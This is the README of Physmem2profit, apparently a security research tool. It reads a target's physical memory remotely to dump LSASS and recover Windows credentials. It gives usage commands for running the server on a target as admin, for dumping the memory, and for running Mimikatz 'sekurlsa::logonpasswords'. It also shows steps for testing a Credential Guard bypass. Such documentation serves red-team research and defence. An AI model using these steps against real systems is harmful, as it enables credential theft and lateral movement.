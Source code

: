 # Physmem2profit

Physmem2profit can be used to create a minidump of a target host's LSASS process by analysing physical memory remotely. The intention of this research is to propose an alternative approach to credential theft and create a modular framework that can be extended to support other drivers that can access physical memory. Physmem2profit generates a minidump (.dmp) of LSASS that can be further analyzed with Mimikatz. The tool does not require Cobalt Strike but should work fine over beacon with a SOCKS proxy.

The idea is illustrated below:

![Overview of Physmem2profit](docs/physmemlayout.png)

The tool has two components:

1. The C# server component, `physmem2profit.exe`, executed on the target host
    * Loads the Winpmem driver and acts as a server, which exposes the physical RAM of the target host through a TCP port
1. The client, `physmem2profit` Python module, executed on the attacking machine
    * When executed with `--mode mount`, connects to the target machine and mounts the physical RAM of the target as a raw file with the help of [FUSE](https://en.wikipedia.org/wiki/Filesystem_in_Userspace)
    * When executed with `--mode dump`, calls various [Rekall](https://github.com/google/rekall) plugins to analyze the memory image and to generate a minidump of the LSASS process.
    * When executed with `--mode all`, performs both of the above actions. Connection with server will be closed when dump is complete.

## Installation Instructions

1. Clone the Physmem2profit Git repository: `git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git`
1. For the server running on the target computer:
    1. Build `physmem2profit/server/Physmem2profit.sln` with Visual Studio
1. For the client running on the attacking machine:
    1. `bash physmem2profit/client/install.sh`

## Usage

1. Run `physmem2profit.exe [--ip IP] [-p PORT] [--hidden] [--verbose]` on the target as admin.
    * You can download the signed Winpmem driver [here](https://github.com/Velocidex/c-aff4/raw/master/tools/pmem/resources/winpmem/att_winpmem_64.sys). This driver needs to be present on the target host.
1. Run `source physmem2profit/client/.env/bin/activate` on the attacking machine. This command will activate the virtualenv created by `install.sh`.
1. Run `cd physmem2profit/client` and ```python3 physmem2profit --host HOST [--port PORT] [--mode MODE] [--driver DRIVER ] [--instal DRIVER_PATH_ON_TARGET] [--label LABEL_FOR_MEMORY_DUMP]``` on the attacking machine
    * `physmem2profit.exe` needs to be running on the target machine before you run this command.
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp` on the attacking machine.
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

## Credential Guard

Decrypting credentials protected by Credential Guard requires gaining access to the encryption key that is stored in the Secure World. For testing purposes, Physmem2profit supports retrieving data from the Secure World from VMware Fusion/Workstation snapshots (.vmem files). This allows credentials protected by Credential Guard to be decrypted with the help of Mimikatz.

### Setting up a virtual machine for testing

1. Create a Windows 10 virtual machine with VMware Fusion/Workstation. Join the virtual machine to a domain (Credential Guard [does not protect](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-protection-limits) local accounts)
1. In the Advanced settings, Enable VBS (Virtualization Based Security)
1. Deploy Credential Guard. An easy option is to use the [Device Guard and Credential Guard hardware readiness tool](https://www.microsoft.com/en-us/download/details.aspx?id=53337)
1. Reboot
1. Run `msinfo32` to ensure `Virtualization-based security Services Running` says `Credential Guard`

### Testing

1. Login to the virtual machine (with a domain account)
1. Take a snapshot
1. Copy the .vmem file and the .vmsn file. Copy/rename the .vmsn file to .vmss, otherwise Rekall will not be able to parse the .vmem correctly
1. ```python3 physmem2profit --mode dump --vmem /tmp/Win10-Snapshot1.vmem --label credential-guard-test```
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp`. The minidump contains a special stream that holds the data from the Secure World, allowing Mimikatz to locate the encryption key.
    * The Secure World data is also stored to `output/[label]-[date]-secure-world.raw`.
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`

### Future work

The support for bypassing Credential Guard by exploiting the [S3 Resume firmware vulnerability](https://www.kb.cert.org/vuls/id/976132/), demonstated in our [Disobey talk](https://disobey.fi/2020/profile/lets_get_physical), is coming soon :).

## More Information

[Rethinking Credential Theft](https://labs.f-secure.com/blog/rethinking-credential-theft/) | a blog post explaining why this approach to credential theft was chosen.

Physmem2profit is developed by [@b3arr0](https://twitter.com/b3arr0) and [@TimoHirvonen](https://twitter.com/TimoHirvonen).

Kudos for contributing:
* Janusz Szmigielski for refactoring the code for the first release
* Pawel Kurowski for refactoring the code for the first release
* Grzegorz Rychlik for refactoring the code for the first release
